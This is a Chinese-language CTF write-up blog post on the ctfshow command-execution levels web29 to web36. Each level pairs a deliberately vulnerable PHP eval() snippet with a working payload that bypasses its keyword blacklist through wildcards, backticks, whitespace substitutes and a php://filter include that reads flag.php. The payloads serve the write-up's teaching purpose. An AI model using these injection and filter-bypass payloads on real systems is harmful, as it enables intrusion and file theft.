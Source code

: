 ```yaml
---
layout: post
title:  "[命令执行]web29-36"
date:   2021-01-09 23:00:00 +0800
categories: ctfshow
---
```


### Web29

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

肥肠简单的一个命令执行，绕过flag黑名单就行，可以使用linux的通配符`*`

```
payload:?c=system('cat fla*');
```

需要注意的是这个flag并不会回显，需要查看源代码才能够看到(这里还卡了半天)。

### Web30

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了system()函数，所以换一个函数就好

```
payload:?c=echo `cat fla*`;
```

### Web31

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

这次ban掉了cat，还有空格、.这些常用的命令和字符，所以要考虑空格的绕过。

空格的绕过方法也是老生常谈了(虽然到现在我都没记几个，~~呜呜我真是个废物~~)

```
在linux 空格可以用以下字符串代替：
 %09(tab)、$IFS$9、 $、{IFS}、$IFS%09(tab)、< 、<>、%20(space)等
 // 抄自羽师傅博客
```

```
payload:?c=echo%09`more%09fla*`; //也可以把%09换成其他 more换成less
```

### Web32

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

又ban掉了`，echo，还有括号，这时候就要想php中不适用括号的函数了

```php
echo
print
die
include
require
include_once
require_once
```

这题不会做，去网上看师傅们的wp，发现是使用include写进去马，然后用伪协议读取文件(~~呜呜~~)。

```
payload:?c=include"$_POST[noob]"?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

load地址的时候，要把`?c=include"$_POST[noob]"?>`加上

### Web33

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了双引号 用上一道题的payload去除双引号即可

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web34

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`:`，然而并没有什么卵用
```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```
### Web35

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`<`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

### Web36

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

过滤了`数字`，然而并没有什么卵用

```
payload:?c=include$_POST[noob]?>
noob=php://filter/read=convert.base64-encode/resource=flag.php
```

